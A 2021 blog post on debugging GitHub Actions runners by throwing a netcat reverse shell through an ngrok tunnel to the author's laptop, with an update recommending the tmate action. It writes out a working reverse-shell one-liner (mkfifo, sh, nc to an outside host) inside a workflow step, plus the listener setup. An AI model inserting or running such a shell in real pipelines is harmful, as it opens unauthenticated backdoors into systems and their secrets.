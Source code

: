 ```yaml
---
title: "How to interactively debug GitHub Actions with netcat"
date: 2021-01-08T00:00:00+00:00
draft: false
author: "Jacob Tomlinson"
categories:
  - blog
tags:
  - GitHub Actions
  - Debugging
thumbnail: github
---
```


**Update**: This was a fun experiment and I recommend you check out the post for a fun read on setting up reverse shells. But I've since discovered [this awesome tmate action](https://github.com/mxschmitt/action-tmate) which lets you interactively debug in the browser or via SSH.

```yaml
- name: Debug with tmate on failure
  if: ${{ failure() }}
  uses: mxschmitt/action-tmate@v3
```

With this step if any previous step in your workflow fails a `tmate` session will be started and the connection info will be repeatedly printed in the workflow output.

```text
Created new session successfully
ssh xMMK8vwSQyCXdZfTCS9hN7fgx@nyc1.tmate.io

https://tmate.io/t/xMMK8vwSQyCXdZfTCS9hN7fgx
```

---

When a [GitHub Actions](https://github.com/features/actions) workflow fails it would be really nice to be able to interactively debug things with a shell. GitHub doesn't provide anything like a web console or SSH access to workflow runners so in this post we walk talk through throwing shells with [netcat](https://en.wikipedia.org/wiki/Netcat) and catching them with netcat and [ngrok](https://ngrok.com/).

## Throwing a reverse shell

The most common way to get a shell on a remote system is to log in via [SSH](https://en.wikipedia.org/wiki/SSH_(Secure_Shell)). This provides encryption and authentication and makes the whole process simple. However it requires you to run an SSH server on that system and have network and firewall rules configured to allow incoming traffic, and authentication credentials for that system.

Alternatively you can use a reverse shell, which is where a system will connect out to some other machine on the internet and then forward a shell over that connection. This technique is commonly used in the security community to open backdoors in compromised systems, but is also extremely useful for debugging on a restricted environment such as a CI worker.

## Catching a shell

In order to "throw" a shell to a remote system you first have to set up a machine to "catch" the connection.

For this example we are going to use netcat to catch our shell, `nc` is a standard linux utility that is available on most systems.

```console
$ nc -nlvp 4444
Listening on 0.0.0.0 4444
```

Now we are listening for incoming connections on port `4444`. Beware that this is an unauthenticated and unencrypted connection and we are going to expose it to the internet. For a bit of interactive debugging on open source projects on GitHub this is fine, but this shouldn't be used for sensitive information or long term solutions.

## Forwarding ports with ngrok

I'm also assuming here that the machine you are running this on (my developer laptop in my case) cannot receive traffic on port `4444` via the internet. So we can use ngrok to forward our ports.

Ngrok is a service which allows you to expose ports on your local machine to the internet, for the purposes of developing and testing software.

Once you've downloaded and authenticated ngrok you can set up the tunnel.

```console
$ ngrok tcp 4444
ngrok by @inconshreveable                                                                                                                                                                                                     (Ctrl+C to quit)

Session Status                online
Account                       Jacob Tomlinson (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://2.tcp.ngrok.io:13604 -> localhost:4444

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

In this example we can see that port `4444` on `localhost` is now also available on port `13604` at `2.tcp.ngrok.io`. This will be different every time you create a connection.

## Configuring GitHub Actions

Now that we are listening for a shell connection we need to add a step to our GitHub Actions workflow to make the outbound connection.

We probably do not want to leak our connection information into our config. It's ephemeral so it's not a huge problem, but storing the connection info in a secret is still good practice.

In your repository head to `Settings > Secrets` and create `DEBUG_HOST` and `DEBUG_PORT` secrets with the hostname and port that `ngrok` gave us.

![Secrets](https://i.imgur.com/pc1Ldfz.png)

Then add a last step to your GitHub workflow.

```yaml
name: Interactive debugging example
on:
  push:

jobs:
  interactive:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout
        uses: actions/checkout@v2

      # Rest of my workflow steps

      - name: Thow interactive shell
        shell: bash -i {0}
        run: |
          rm /tmp/f>/dev/null 2>&1;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ${{ secrets.DEBUG_HOST }} ${{ secrets.DEBUG_PORT }} >/tmp/f
```

In this last step we use a combination of `mkfifo`, `cat`, `sh` and `nc` to forward a shell to our remote host.

When your workflow gets to this step it will appear to run indefinitely with no output.

![Workflow running](https://i.imgur.com/9LRAHpO.png)

But if we look at the `nc` session we have running on our local machine we should now see a shell prompt.

```console
Connection received on 127.0.0.1 57724
/bin/sh: 0: can't access tty; job control turned off
$
```

We can then run `bash` here to get a more useful shell.

```console
$ bash -i
bash: cannot set terminal process group (2507): Inappropriate ioctl for device
bash: no job control in this shell
runner@fv-az12-647:~/work/github-actions-shell/github-actions-shell$
```

## What can I do here?

Now that you have a shell on your remote system you can do whatever you like. Just be aware that `nc` will not forward control commands like `ctrl+c` and will instead close the `nc` connection. If this happens you will need to restart `nc` and restart your workflow.

This is also a simple shell so something like SSH which require a [pseudo-tty](https://unix.stackexchange.com/questions/21147/what-are-pseudo-terminals-pty-tty) may not work as expected.

But we can still do things like poke around the runner's system.

```console
runner@fv-az12-647:~/work/github-actions-shell/github-actions-shell$ whoami
runner

runner@fv-az12-647:~/work/github-actions-shell/github-actions-shell$ cat /etc/os-release
NAME="Ubuntu"
VERSION="18.04.5 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.5 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic

runner@fv-az12-647:~/work/github-actions-shell/github-actions-shell$ hostname -f
fv-az12-647.gip0skj2w3au3jd4qdtkx3lorh.cx.internal.cloudapp.net
```

And most importantly we can now start debugging our CI steps to see what went wrong.

```console
runner@fv-az12-647:~/work/github-actions-shell/github-actions-shell$ pytest myapp
```